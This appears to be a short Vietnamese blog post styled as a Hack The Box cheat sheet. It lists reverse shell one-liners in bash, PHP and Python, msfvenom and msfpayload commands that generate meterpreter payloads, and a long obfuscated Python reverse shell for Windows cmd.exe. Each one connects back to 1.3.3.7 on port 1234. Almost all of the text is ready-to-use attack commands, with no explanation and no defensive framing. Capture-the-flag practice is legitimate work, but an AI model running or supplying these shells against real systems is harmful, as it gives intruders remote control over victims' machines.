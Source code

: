 ﻿+++
Categories = ["Hack The Box"]
Description = ""
Tags = ["Reverse Shell"]
date = "2019-06-17T12:02:32+07:00"
menu = "posts"
title = "Reverse Shell - Part 1"

+++

Note cho khi cần dùng đến.
# Reverse Shell

#### Bash
> bash -i >& /dev/tcp/1.3.3.7/1234 0>&1

> exec /bin/bash 0&0 2>&0
>msfvenom -p cmd/unix/reverse_bash LHOST=1.3.3.7 LPORT=1234 -f raw > shell.sh

#### PHP
>php -r '$sock=fsockopen("1.3.3.7",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

> msfpayload php/meterpreter/reverse_tcp LHOST=1.3.3.7 LPORT=1234 R > exploit.php

>msfvenom -p php/meterpreter_reverse_tcp LHOST=1.3.3.7 LPORT=1234 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

#### Python
>export RHOST="1.3.3.7";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.3.3.7",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

>C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('1.3.3.7',1234)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
